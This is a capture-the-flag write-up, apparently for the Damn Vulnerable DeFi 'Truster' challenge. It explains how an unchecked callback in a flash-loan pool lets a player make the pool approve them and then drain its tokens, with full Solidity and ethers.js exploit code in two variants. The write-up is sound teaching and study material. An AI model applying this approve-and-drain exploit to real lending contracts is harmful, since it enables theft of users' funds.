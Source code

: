 > More and more lending pools are offering flash loans.
> In this case, a new pool has launched that is offering flash loans of DVT tokens for free.

> The pool holds 1 million DVT tokens.
> You have nothing.

> To pass this challenge, take all tokens out of the pool.
> If possible, in a single transaction.

## Normal contract

The contract performs a blind callback, without any checks:

```solidity
target.functionCall(data);
```

Where [`functionCall`][openzeppelin-docs-functioncall] is a safer replacement for the low level `call`.

The contract assumes that if the tokens are returned after this call, all is good:

```solidity
if (token.balanceOf(address(this)) < balanceBefore)
    revert RepayFailed();
```

However, instead of directly transfering tokens, we can just [`approve`][openzeppelin-docs-approve] an address!
With the target of the callback set to the token, the goal is to craft the calldata to:

1) point to the `approve` function
2) with arguments:
  - `spender` set to the player address
  - `amount` set to the whole pool balance

Which is easily done with:

```js
const _abi = ['function approve(address spender,uint256 amount)'];
const _interface = new ethers.utils.Interface(_abi);
const _data =_interface.encodeFunctionData("approve", [player.address, '0xffffffffffffffffffffffffffffffff']);
```

Somehow I could not get execute this chain with `ethers`, so I wrapped it in a contract:

```solidity
bytes memory _payload = abi.encodeWithSignature("approve(address,uint256)", address(this), _balance);
```

Notice that it requests to approve the contract address and not the player.
The method `transferFrom` considers the `msg.sender` to decide whether the transfer is allowed.

Next the players borrows `0` tokens to avoid having to repay:

```solidity
pool.flashLoan(0, msg.sender, address(token), _payload);
```

The normal contract can be trusted with tokens ofc.
Now that the contract is approved it can transfer tokens:

```js
token.transferFrom(address(pool), msg.sender, _balance);
```

To validate this challenge, it is important to call the malicious contract from the player address:

```js
await _normal.connect(player).pwn(pool.address, token.address);
```

## Without a contract

```js
const _abi = ['function approve(address spender, uint256 amount)'];
const _interface = new ethers.utils.Interface(_abi);
const _data =_interface.encodeFunctionData("approve", [player.address, TOKENS_IN_POOL]);
await pool.flashLoan(0, player.address, token.address, _data);
await token.connect(player).transferFrom(pool.address, player.address, TOKENS_IN_POOL);
```

[openzeppelin-docs-approve]: https://docs.openzeppelin.com/contracts/2.x/api/token/erc20#IERC20-approve-address-uint256-
[openzeppelin-docs-functioncall]: https://docs.openzeppelin.com/contracts/3.x/api/utils#Address-functionCall-address-bytes-
